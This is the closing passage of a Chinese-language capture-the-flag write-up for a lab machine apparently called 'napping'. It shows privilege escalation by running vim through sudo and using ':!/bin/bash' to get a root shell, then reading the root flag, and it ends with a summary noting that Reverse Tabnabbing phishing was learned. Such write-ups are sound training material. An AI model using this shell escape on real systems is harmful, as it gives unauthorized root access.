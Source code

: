     ```python
    adrian@napping:~$ sudo vim
    ```
    
    然后在命令行模式下输入`!/bin/bash`
    
    ```python
    :!/bin/bash
    
    id
    uid=0(root) gid=0(root) groups=0(root)
    ```
    
    获得root！！！！
    
8. 读取`flag`文件
    
    ```python
    cat root.txt
    Admins just can't stay awake tsk tsk tsk
    ```
    

## 总结

学习到`Reverse_Tabnabbing`的钓鱼攻击方式